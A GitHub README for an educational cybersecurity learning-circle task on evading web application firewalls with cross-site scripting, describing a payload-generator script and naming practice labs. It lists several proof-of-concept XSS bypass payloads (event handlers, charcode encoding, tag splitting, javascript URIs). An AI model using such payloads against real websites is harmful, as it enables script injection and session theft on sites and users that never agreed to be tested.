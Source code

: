 
# 🔐 μLearn Cybersecurity Task 8: WAF Evasion for XSS

## 📌 Task Description

This is the submission for **Task 8: WAF Evasion for XSS** under the **μLearn Cybersecurity Learning Circle**.  
The goal is to explore how **Web Application Firewalls (WAFs)** filter XSS attacks and create a **Python script** that generates **bypass payloads** to evade such filters.

🎯 **Karma Points:** ⭐️⭐️⭐️ 800  
🏷️ **Tag to Submit on Discord:** `#cl-cybersec-pysxss`

---

## 🎯 Objectives

- Understand how WAFs block Cross-Site Scripting (XSS) payloads
- Write a Python script that generates multiple XSS payloads using evasion techniques
- Test those payloads on hosted vulnerable web apps
- Document and demonstrate successful WAF evasion attempts

---

## 💻 Python Script: `payload.py`

This script generates XSS payloads that attempt to evade WAFs using methods like:
- Tag breaking (`<scr<script>ipt>`)
- Null byte injection (`<scr\0ipt>`)
- SVG or IMG tags with JavaScript event handlers (`onload`, `onerror`)
- CharCode encoding (`String.fromCharCode()`)

> ✅ **Run it:**
```bash
python3 payload.py
````

---

## 🧪 Online Testing Platforms Used

| Platform               | URL                                                               | Notes                                     |
| ---------------------- | ----------------------------------------------------------------- | ----------------------------------------- |
| **PortSwigger Labs**   | [Link](https://portswigger.net/web-security/cross-site-scripting) | Modern labs with simulated WAF            |
| **bWAPP (Online)**     | [http://www.itsecgames.com](http://www.itsecgames.com)            | Vulnerable app with multiple input fields |
| **XSS Game by Google** | [https://xss-game.appspot.com](https://xss-game.appspot.com)      | Fun and educational                       |

---

## ✅ Example Payloads Generated

| Payload                                                                   | Technique            |
| ------------------------------------------------------------------------- | -------------------- |
| `<svg/onload=alert(1)>`                                                   | SVG event handler    |
| `<img src=x onerror=alert(1)>`                                            | IMG event            |
| `<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>` | CharCode encoding    |
| `<scr<script>ipt>alert(1)</scr</script>ipt>`                              | Tag splitting        |
| `<iframe src='javascript:alert(1)'></iframe>`                             | JavaScript URI       |
| `&lt;script&gt;alert(1)&lt;/script&gt;`                                   | HTML entity encoding |

---

## 📸 Screenshots

> *(Include screenshots inside a `/screenshots/` folder in your repo)*
> Examples:

* Script output with payloads
* Alert popup in browser
* Console/network proof (optional)

---

## 📘 Learning Outcome

* WAFs often block predictable or signature-based payloads
* Obfuscation techniques can bypass many naïve or character-based filters
* Testing on real-world labs helps verify the effectiveness of your payloads

---

## 📁 Folder Structure

```bash
.
├── payload.py              # Python script to generate payloads
├── README.md               # This documentation
└── screenshots/            # (Optional) Screenshots showing successful XSS
```

---

## 🛡️ License

MIT License – For educational and research purposes only.

```

